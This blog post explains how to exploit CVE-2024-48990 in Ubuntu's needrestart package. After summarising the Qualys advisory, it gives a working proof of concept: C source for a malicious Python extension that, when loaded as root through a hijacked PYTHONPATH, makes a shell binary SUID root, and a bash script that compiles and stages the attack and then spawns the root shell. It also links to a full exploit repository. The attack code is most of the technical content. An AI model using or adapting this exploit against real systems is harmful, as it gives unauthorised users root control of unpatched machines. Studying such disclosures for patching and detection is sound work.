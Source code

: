 ```yaml
---
categories: ["blog"]
title: Need Restart?
tags: ["CVE","exploit","privilege escalation","Ubuntu"]
image: 'assets/img/posts/restart.jpg'
description: How to exploit CVE-2024-48990, one of the local privilege escalation vulnerabilities discovered recently by Qualys in 'needrestart' package.
---
```


# Context
A colleague shared with us today the following Qualys advisory: [https://www.qualys.com/2024/11/19/needrestart/needrestart.txt](https://www.qualys.com/2024/11/19/needrestart/needrestart.txt).

In this advisory, Qualys, releases technical details (but not PoCs) of how the package 'needrestart', written in Perl, is affected by multiple local privilege escalation vulnerabilities (quoting their advisory):
* **CVE-2024-48990**: local attackers can execute arbitrary code as root by
  tricking needrestart into running the Python interpreter with an
  attacker-controlled PYTHONPATH environment variable.
  Last-minute update: an additional CVE, **CVE-2024-48992**, has been
  assigned to needrestart because local attackers can also execute
  arbitrary code as root by tricking needrestart into running the Ruby
  interpreter with an attacker-controlled RUBYLIB environment variable.
  
* **CVE-2024-48991**: local attackers can execute arbitrary code as root by
  winning a race condition and tricking needrestart into running their
  own, fake Python interpreter (instead of the system's real Python
  interpreter).
  
* **CVE-2024-10224**: local attackers can execute arbitrary shell commands
  as root by tricking needrestart into open()ing a filename of the form
  "commands|" (technically, this vulnerability is in Perl's ScanDeps
  module, but it is unclear whether this module was ever meant to
  operate on attacker-controlled files or not).
  Last-minute update: in the end, an additional CVE, **CVE-2024-11003**, has
  been assigned to needrestart for calling Perl's ScanDeps module with
  attacker-controlled files.

These vulnerabilities have been there since April 2014. Jeesh... Plenty of time to exploit these.

Anyway, upon further reading I found this sentence for the details of CVE-2024-48990:
> We will not publish our exploits for now; however, please note that these vulnerabilities are trivially exploitable, and other researchers might publish working exploits shortly after this coordinated release.

That picked my interest and decided to accept the challenge to see how much time would it take me to exploit one of these (provided that I am not familiar with the needrestart utility and writting Python dynamic libraries). **Spoiler**: It was between 2 adn 3 hours.

# The PoC
**Disclaimer**: I have decided to release the PoC because there is already a patch for the vulnerable version of 'needrestart' and there are already other PoCs publicly available in Twitter. The only reason I did this was for my own learning process.

I assume that you have read the advisory now and will only present you the PoC.

I have uploaded the PoC here: [https://github.com/felmoltor/CVE-2024-48990/](https://github.com/felmoltor/CVE-2024-48990/)

There are three parts, the first is the malicious Python dynamic library that will be executed by 'needrestart' when loads the libraries in `PYTHONPATH`. A few questions to ChatGPT and reads of [python documentation on building C and C++ Extensions](https://docs.python.org/3/extending/building.html) did the trick here.
Basically, writing an extension for Python in C boils down to including <Python.h> and write the code inside `PyMODINIT_FUNC PyInit_modulename`, where `modulename` is the name of your module. For example, I called my library just "importlib". 
The code just checks if the UID that is running it is 0 (root), ans if so, changes the suid bit and owner of the file `/home/felipe/CVE-2024-48990/rootshell` to root:root. 

Here's the code:

```c
#include <Python.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <stdbool.h>


PyMODINIT_FUNC PyInit_importlib(void) {
    printf("[+] Malicious shared library loaded!\n");
    printf("[i] Running with UID %i\n", getuid());

    // Path to the SUID shell
    char *shell_path = "/home/felipe/CVE-2024-48990/rootshell";

    // Only run this if the UID is 0
    if (getuid()==0){
        // setting suid and chown root:root the reverse shell
        if (chown(shell_path, 0, 0) == 0) {
            printf("[+] Changed ownership of rootshell to root:root\n");
        } else {
            perror("[-] Failed to change ownership of rootshell to root");
        }

        // Set SUID permissions
        if (chmod(shell_path, 04755) == 0) {
            printf("[+] SUID permissions set on %s\n", shell_path);
        } else {
            perror("[-] Failed to set SUID permissions");
        }
    }
    // Initialization code for your malicious library
    return 0;
}
```

The second key part is a C root shell. There are millions of these in internet, so no point in showing the code here. If you are curious go to [rootshel.c](https://github.com/felmoltor/CVE-2024-48990/blob/main/rootshell.c).

The third part was a bash script that automates the compilation of the Python library, the rootshell and launches pyton process (loop.py) in background with the `PYTHONPATH` pointing to `/home/$USER/CVE-2024-48990/`. Finally, it just waits in a while loop for the utility 'needreboot' to do its magic and load the malicious library upon a periodic check (That "periodic check" can be simulated by yourself installing a new package with `sudo apt install nano` or any other small package). When 'needrestart' executes the library, the suid bit of the rootshell is on and owned by root, so the loop finishes and the shell is invoked:

```bash
#!/bin/bash

EXPPATH=/home/$USER/CVE-2024-48990/

# compile root shell 
echo "Compiling root shell "
gcc -o rootshell rootshell.c

echo "Compiling the malicious python library"
gcc -shared -fPIC -I /usr/include/python3.12/ -o importlib/__init__.so library.c

echo "Launching python loop.py in the background"
PYTHONPATH=$EXPPATH python3 loop.py &

# Wait for needrestart to do its job
file=$EXPPATH/rootshell
while true; do
    # Check if the file has the SUID flag and is owned by root
    if [[ -f "$file" && -u "$file" && "$(stat -c %U "$file")" == "root" ]]; then
        echo "[+] File '$file' has the SUID flag and is owned by root."
        break
    fi

    # Wait for 5 seconds before checking again
    sleep 2
done

./rootshell
```

And this is how it looks in action:

![CVE-2024-48990 in action](../assets/img/posts/CVE-2024-48990.png)

